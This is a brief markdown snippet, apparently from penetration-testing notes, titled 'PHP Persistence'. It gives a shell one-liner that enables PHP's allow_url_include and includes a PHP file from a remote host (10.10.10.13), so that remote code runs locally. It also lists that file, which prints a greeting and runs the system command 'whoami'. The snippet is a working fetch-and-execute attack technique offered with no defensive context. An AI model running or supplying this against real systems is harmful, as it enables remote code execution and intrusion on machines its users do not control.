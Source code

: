 ## PHP Persistence
Run the following
```bash
php -d allow_url_include=1 -r 'include_once("http://10.10.10.13/hw.php")'
```


`hw.php` Contents
```php
<?php echo("Hello World\n"); ?>
<?php system('whoami'); ?>
```